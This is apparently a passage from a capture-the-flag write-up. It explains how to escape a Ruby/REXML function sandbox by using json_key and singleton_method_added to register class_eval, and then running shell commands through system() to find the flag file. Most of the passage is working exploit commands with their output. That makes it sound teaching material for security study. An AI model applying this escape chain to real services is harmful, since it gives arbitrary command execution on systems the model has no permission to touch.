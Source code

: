 The `key` method on a Ruby Hash returns the associated value for a given key. You can think of this
as a reverse key-value lookup. For `json = {a: "b"}`, `json_key(json, "b")` would return `:a`. 
This means that we can do:

```
json_key(json_parse('{"class_eval": "a"}'), "a")
```

And get back the symbol `:class_eval`. Trying this in our console yields...ambiguous results:

```
> json_key(json_parse('{"class_eval": "a"}'), "a")
class_eval
```

I'm assuming that this is because REXML calls `to_s` on its result before printing it, and the string 
conversion of a symbol is just the symbol's name.

But, combining this with our knowledge of `singleton_method_added`, we can do:

```
> singleton_method_added(json_key(json_parse('{"class_eval": "a"}'), "a"))
> singleton_method_added(json_key(json_parse('{"class_eval": "a"}'), "a"))
class_eval
true
FUNCS
{:singleton_method_added=>true, :text=>true, :last=>true, :position=>true, :count=>true, :id=>true, :local_name=>true, :namespace_uri=>true, :name=>true, :string=>true, :string_value=>true, :concat=>true, :starts_with=>true, :contains=>true, :substring_before=>true, :substring_after=>true, :substring=>true, :string_length=>true, :normalize_space=>true, :translate=>true, :boolean=>true, :not=>true, :true=>true, :false=>true, :lang=>true, :compare_language=>true, :number=>true, :sum=>true, :floor=>true, :ceiling=>true, :round=>true, :processing_instruction=>true, :export_xml=>true, :import_xml=>true, :json_parse=>true, :json_get=>true, :json_key=>true, :select=>true, :clear=>true, :set=>true, :render=>true, :source=>true, :help=>true, "class_eval"=>true, :class_eval=>true}
```

Which adds `class_eval` as a symbol to the `@@available_functions` Hash. Yay! Let's try it out:

```
> class_eval('system("curl google.com")')
<HTML><HEAD><meta http-equiv="content-type" content="text/html;charset=utf-8">
<TITLE>301 Moved</TITLE></HEAD><BODY>
<H1>301 Moved</H1>
The document has moved
<A HREF="http://www.google.com/">here</A>.
</BODY></HTML>
true
```

Amazing. Using this on the server to navigate through the directory structures, we can find the flag:

```
> singleton_method_added(json_key(json_parse('{"class_eval": "a"}'), "a"))
true
> class_eval('system("ls")')
bin
boot
challenge.rb
dev
etc
flag_here_f75047c21a96c2eXXXXXXXXXX
home
lib
lib32
lib64
libx32
media
mnt
```